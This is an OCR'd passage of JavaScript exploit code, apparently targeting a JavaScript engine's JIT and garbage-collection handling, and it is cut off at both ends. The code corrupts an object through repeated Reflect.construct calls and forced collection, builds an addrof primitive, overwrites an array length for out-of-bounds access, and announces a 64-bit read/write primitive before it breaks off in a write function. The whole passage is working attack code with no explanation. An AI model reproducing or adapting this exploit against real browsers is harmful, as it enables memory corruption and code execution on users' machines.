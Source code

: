 ```js
    constructor(a20, a21, a22) {
        const v24 = new new.target();
        let x = [empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object];
        super();    
        let a = [1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1, 1.1];
        this.x = x;
        this.a = a;
        JSON.stringify(empty_array);
    }
    [1] = dogc();
}

// jit compile the dogc()
for (let i = 0; i<200; i++) {
    dogc_flag = false;
    if (i%2 == 0) dogc_flag = true;
    dogc();
}

for (let i = 0; i < 650; i++) {
    dogc_flag=false;
    if (i == 644 || i == 645 || i == 646 || i == 640) {
        dogc_flag=true;
        dogc();
        dogc_flag=false;
    }
    if (i == 646) dogc_flag=true;

    let x = Reflect.construct(ClassBug, empty_array, ClassParent);
    if (i == 646) {
        corrupted_instance = x;
    }
}

function addrof(obj){
    corrupted_instance.x[0] = obj;
    __f64_buf[0] = corrupted_instance.a[8];
    return __u32_buf[0];
}

// overwrite the length of `a` array.
corrupted_instance.x[5] = 0x10000;

let oob = [1.1, 2.2, 3.3];
let addr_oob = addrof(oob);
let addr_a = addrof(corrupted_instance.a);

// Quick check
if(addr_oob < addr_a && corrupted_instance.a.length != 0x10000){
    console.log("Exploit Failure!");
}

let off = (addr_oob - addr_a ) + 0xc;
if(off%8 != 0){
    off -= 4;
}
off = off / 8;
off += 9;

print("Achieved 64 bit read write primitive.")
function write_64(addr, val){
    corrupted_instance.a[off] = itof(BigInt(0x3*0x100000000 + addr-8));
```